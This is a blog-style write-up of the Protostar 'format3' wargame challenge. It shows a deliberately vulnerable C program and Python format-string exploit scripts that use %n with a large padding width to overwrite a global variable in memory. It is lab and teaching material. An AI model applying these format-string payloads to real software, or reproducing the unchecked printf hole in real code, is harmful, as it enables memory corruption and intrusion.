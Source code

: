 ```yaml
---
layout: post
title: "Writing Large Values to Specific Targets via Format Strings: format3“
date: 2019-7-28
---
```

The challenge is not much different from the last, the only difference here is that the value we will write to the target is much larger.
{% highlight c%}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
{% endhighlight %}
Once again, let's find the address of the target.
![format3-1](/assets/format3-1.png)
Unsurprisingly, this is at 0x80496f4. So we at least have that out of the way. 

The next thing we should do is try changing its value.
![format3-2](/assets/format3-2.png)
Ok, so there is works the same way as before. But now we need to make the value equal 0x01025544.
![format3-3](/assets/format3-3.png)
As one can see, it looks like we can't get the value of target to equal something as big as it needs to be. After a certain amount, the value just turns to 0. 

How then do we deal with this?

The link below basically does what I am trying to do, so it can show us the way.
https://null-byte.wonderhowto.com/how-to/exploit-development-write-specific-values-memory-with-format-string-exploitation-0182112/

Writing scripts is useful. We should begin writing an exploit script, because we are going to to be dealing with a lot of numbers.
{% highlight python %}
import struct 
import os

target = struct.pack("I", 0x080496f4)
junk = "%x"
payload = target + junk + "%x."*10 + "%n"

os.system("echo" + payload + " | /opt/protostar/bin/format3")
{% endhighlight %}
This is just doing what we were typing previously. 

The target is put in first then 11 bytes along the stack, we are at the spot we are dumbing our data.
![format3-4](/assets/format3-4.png)
Same result as before, at least this proves our program is doing as we should.

Now we need to find out how much the value junk is going to be. I think a good way to start this, since this is roughly the amount we are increasing our target by, would be with the value we want, 0x01025544.

This will be switched out of hex for the format specifier. I am going to use python to convert hex to decimal. I will also subtract our value by 0x4b, the number the target is equal to when we run this without our junk value.
![format3-5](/assets/format3-5.png)
This is what we will try using as my format specifier. 
{% highlight python %}
import struct 
import os

target = struct.pack("I", 0x080496f4)
junk = "%16930041x"
payload = target + junk + "%x."*10 + "%n"

os.system("echo" + payload + " | /opt/protostar/bin/format3")
{% endhighlight %}
Note that running this will take more time than any of the exploits up to this point. Have patience. Maybe go get some tea while it's running.

Running this, it doesn't quite become our value, it is one below. 
![format3-6](/assets/format3-6.png)
{% highlight python %}
import struct 
import os

target = struct.pack("I", 0x080496f4)
junk = "%16930042x"
payload = target + junk + "%x."*10 + "%n"

os.system("echo" + payload + " | /opt/protostar/bin/format3")
{% endhighlight %}
We increase the format specifier by 1.

And wait a whole 2 minutes.
[format3-7](/assets/format3-7.png)
Well, we did it. As for why subtracting 4b gave us a number off by one, I should have realized that likely since we put one into the number initially there, 4b is the amount stored plus one, input by our "%x", which has an implied 1.
The base number is likely 4a.

This challenge, I personally found difficult, but fun. It's good when you have to do a bit of digging, playing with a debugger and reading information. 
![aesthetic1](/assets/aesthetic1.jpg)
Anyways, time for some rest.